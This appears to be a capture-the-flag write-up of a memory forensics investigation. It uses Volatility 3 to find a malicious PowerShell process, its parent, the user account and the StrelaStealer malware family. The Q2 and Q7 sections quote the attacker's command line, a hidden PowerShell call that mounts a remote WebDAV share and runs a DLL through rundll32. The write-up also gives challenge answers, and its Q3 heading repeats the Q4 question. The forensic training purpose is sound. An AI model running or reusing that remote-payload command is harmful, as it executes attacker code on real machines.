










**I. Scenario**
- You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.
**II. Analysis**

**Q1. Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?**
- Volatility 3 provides various plugins to manually or automatically analyze this data. In particular, we’ll use the **malfind** plugin, which is highly effective for locating suspicious processes.

- Command: **python vol.py -f <path of memory dump> windows.malfind**
- We have identified a mention of a PowerShell process with a PID of **3692**, which raises suspicion due to its unexpected presence.

    
- To thoroughly understand the scope of this finding, we must pursue every piece of information we uncover, tracing each detail to its conclusion. This approach ensures that we build a comprehensive understanding of the incident and uncover any hidden elements related to the compromise.

    Answer: **powershell.exe**

**Q2. Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?**
- One essential plugin for this task is **windows.pstree**, which helps us visualize processes in a tree structure, showing both parent and child relationships. To use this plugin, we can run:

    Command: **python vol.py -f <path of memory dump> windows.pstree** 

- This command outputs a complete process hierarchy, allowing us to trace each process to its source. Given our investigative approach—following every lead to its end and refining our scope with each finding—we can filter the output to focus on suspicious processes. For example, filtering by the PID of the suspicious PowerShell process (PID 3692) is done as follows: 

    Command: **python vol.py -f <path of memory dump> windows.pstree | grep "3692"**

- Our analysis reveals that the parent of the malicious PowerShell process (PID 3692) is PID 4210, which may have already been terminated when the memory dump was acquired. This detail is essential for understanding the timeline and visibility of preceding malicious actions. 
    
- From this, we discover that the parent of the malicious PowerShell process (PID 3692) is another process with PID 4210. We also observe child processes and a suspicious command line associated with this PowerShell instance:

    **powershell.exe  -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry** 

- This command reveals hidden network activity and DLL execution, warranting further investigation into its role in the compromise, which we will explore in subsequent steps.

    Answer: **4210**

**Q3:Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?**

- The file name of the second-stage payload may be found in the command-line arguments of the suspicious process. Think about which Volatility plugin displays the command line used.
- Use the cmdline command in Volatility with the suspicious process ID identified earlier to reveal command-line arguments.
- Volatility includes a powerful plugin that is highly useful in investigations, as it displays the exact command line executed by each process—an essential resource for analysts. We can apply this plugin to specifically target the malicious PowerShell process, providing detailed insights into its execution behavior.
- Attackers prefer using DLL files because they can be executed through legitimate Windows processes without being directly launched, allowing the malware to blend in with normal system activity. Additionally, DLLs are frequently abused for persistence mechanisms, such as being loaded by trusted applications or system services during startup. This technique reduces the likelihood of detection by security solutions and enables attackers to maintain long-term access to the compromised system.
    
    Answer: **3435.dll**

**Q4:Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?**
- Based on the analysis in question 3, the malicious PowerShell process provided details about the shared folder from the attacker's server where the malware file was located.
     
    Answer:  **davwwwroot**

**Q5: What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?**
- Mapping malware or attacker techniques to the **MITRE ATT&CK framework** is crucial for enhancing detection, guiding threat hunting, and structuring our understanding of adversary tactics. This alignment strengthens incident response and aids in creating effective detection strategies.
         

- **MITRE ATT&CK** Context: Technique: Signed Binary Proxy Execution: **Rundll32** (**T1218.011**). This technique details how attackers misuse trusted Windows utilities, such as **rundll32.exe**, to execute malicious payloads covertly. It’s considered suspicious due to its ability to load external or remote code, often avoiding traditional security alerts.

     

    Answer: **T1218.011**

**Q6. Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?**

-The windows.getsids.GetSIDs plugin in Volatility is invaluable for parsing user data from memory dumps based on their SIDs. This plugin extracts and displays Security Identifiers (SIDs) linked to processes in a Windows memory dump, allowing analysts to identify user accounts, groups, and permissions for each process. To use it, run:
           **python vol.py -f <path of memory dump> windows.getsids.GetSIDs | grep "3692"**

- The result is then returned :
    
- This provides valuable details to answer the question and better understand the scope of the investigation:
    +  Username: The username associated with **powershell.exe** (**PID 3692**) is Elon, identified by the SID **S-1-5-21-3274565340-3808842250-3617890653-1001**
    +  Group Memberships and Privileges:
        * Domain Users (**S-1-5-21-*...-513**): Indicates that the user "Elon" is part of the Domain Users group, allowing access to domain resources.
        * Administrators (**S-1-5-32-544**): Shows that "Elon" has Administrator privileges, giving them high-level control over the system.
        * Local Account (Member of Administrators): Confirms that "Elon" is part of the local Administrators group.
        * Mandatory Integrity Level - High (**S-1-16-12288**): This level of integrity indicates elevated permissions, enabling potentially critical actions on the system.
        Other groups, such as Authenticated Users and Local Account, provide additional access, but the Administrator and Domain Users memberships are most significant for assessing potential impact.
- With membership in both Administrators and Domain Users groups, the user "Elon" has considerable access and control, both locally and across the network. This level of access suggests a higher risk, as the compromised PowerShell process can potentially affect critical system components and network resources.

    Answer: **Elon**

**Q7. Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?**
- Returning to the suspicious PowerShell command : **powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry**
->  This command suggests the use of a remote IP address (45.9.74.32) to download a potentially malicious payload as we discussed before.
- To gather more information,we will submit the IP address (45.9.74.32) to a threat intelligence platform such as VirusTotal. Upon submission, it is revealed that this IP is flagged by 14 out of 94 security vendors and sandbox environments, indicating its association with malicious activity. 
        

- When we navigate to the Relations tab in VirusTotal, which displays files, URLs, and other indicators related to this IP address. In the "Files Referring" section, identify any suspicious files linked to the IP. Here, we find a file named **8836bee6c07fd3c705cc895e925fe9e4.virus** along with several DLL files. These files provide critical insights into the nature of the malware.
        

- After finding a file named 8836bee6c07fd3c705cc895e925fe9e4.virus, we will take the part before the dot and enter it into the search box on VirusTotal.
        
- Further analysis of the files and their behavior indicates a connection to the StrelaStealer malware family. StrelaStealer is designed to target email credentials by extracting login information from popular email clients and transmitting it to the attacker’s command-and-control (C2) server. This malware enables attackers to access the victim's email accounts, which can facilitate additional attacks or unauthorized access.
- For more detailed insights on StrelaStealer's capabilities, check the **Unit 42 report**. This report provides an in-depth look at StrelaStealer’s attack techniques and potential impacts.

    Answer:  **StrelaStealer** 
